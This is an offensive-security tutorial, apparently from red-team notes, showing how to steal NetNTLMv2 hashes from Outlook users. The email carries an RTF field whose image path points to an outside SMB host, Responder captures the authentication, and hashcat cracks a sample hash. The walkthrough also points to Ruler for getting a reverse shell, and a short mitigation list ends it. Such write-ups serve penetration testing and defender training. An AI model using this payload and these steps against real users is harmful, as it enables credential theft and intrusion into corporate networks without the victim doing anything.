



# NetNTLMv2 hash stealing using Outlook

## Context

If a target system is not running the latest version of Windows/Outlook, it may be possible to craft such an email that allows an attacker to steal the victim's NetNTLMv2 hashes without requiring any interaction from the user - clicking the email to preview it is enough for the hashes to be stolen.


Note that this attack does not work on the most up to date version of Windows 10 and Outlook 2016 versions, so like always - patch early and often.


## Weaponization

Let's create a new HTML file with the below:


```markup
<html>
    <h1>holla good sir</h1>
    
</html>
```


An RTF file also works:


```javascript
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://157.230.60.143/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```


Then insert a new file by clicking the attachment icon at the top on the window title bar:


Select the malicious messge.html and select `Insert as Text`:



You should see that your message now looks like an HTML with a broken image \(expected in our case since the path to the image is fake\):



## Execution

Fire up `Responder` to listen for incoming SMB authentication requests from the victim


```csharp
responder -I eth1 -v
```


..and send the malicious email to the victim.

## Victim View

Once the victim opens their Outlook and clicks on the malicious email to preview it, their machine will attempt authenticating to the attacker controlled server \(running Responder\). This will give away the victim's `NetNTLMv2` hashes to the attacker, which they can then attempt at cracking:



Once the hash is stolen, we can attempt cracking it:


```csharp
hashcat -m5600 'spotless::OFFENSE:6bdb56c8140cf8dc:FFEF94D55C2EB2DE8CF13F140687AD7A:0101000000000000A5A01FB2BE9ED401114D47C1916811640000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000200000407D7D30819F03909981529F6ACA84502CFCC8B3555DBA34316F8914973DD03C0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0030002E0035000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```


In this case, we can see the user had a ridiculously simple password, which got cracked immediately:


The next step would be to use Ruler to gain a reverse shell from the victims corporate network:



## Mitigation

* Patch Windows and Outlook
* Block outgoing SMB connections to the Internet
* Read emails in plain text
* Enforce strong passwords

## References



